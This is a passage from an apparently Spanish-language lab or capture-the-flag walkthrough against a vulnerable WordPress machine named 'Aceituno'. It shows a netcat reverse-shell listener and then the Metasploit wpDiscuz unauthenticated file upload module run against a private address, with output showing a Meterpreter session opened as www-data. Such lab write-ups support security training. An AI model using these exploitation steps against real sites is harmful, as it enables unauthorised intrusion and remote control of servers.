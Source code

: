 
Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.220] 55338
bash: cannot set terminal process group (516): Inappropriate ioctl for device
bash: no job control in this shell

www-data@Aceituno:/var/www/html/wordpress/wp-content/uploads/2025/04$ whoami
whoami
www-data
```
Estamos dentro.

Recuerda obtener una sesión interactiva porque la necesitaremos más adelante.

<br>

<h2 id="Exploit2">Probando Módulo de Metasploit Framework: wp_wpdiscuz_unauthenticated_file_upload</h2>

Existe un módulo de **Metasploit Framework** que se aprovecha esta vulnerabilidad.

Vamos a buscarlo y a usarlo:
```bash
msf6 auxiliary(scanner/http/wordpress_scanner) > search wpdiscuz
.
Matching Modules
================
.
   #  Name                                                         Disclosure Date  Rank       Check  Description
   -  ----                                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload  2020-02-21       excellent  Yes    WordPress wpDiscuz Unauthenticated File Upload Vulnerability
.
msf6 auxiliary(scanner/http/wordpress_scanner) > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) >
```

Configuralo:
```bash
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set RHOSTS 192.168.1.220
RHOSTS => 192.168.1.220
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set BLOGPATH /2024/04/23/hola-mundo/
BLOGPATH => /2024/04/23/hola-mundo/
```

Y ejecútalo:
```bash
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Payload uploaded as GHXZu.php
[*] Calling payload...
[*] Sending stage (40004 bytes) to 192.168.1.220
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.1.220:56358) at 2025-04-01 12:56:17 -0600
[!] This exploit may require manual cleanup of 'GHXZu.php' on the target

meterpreter > getuid
Server username: www-data
```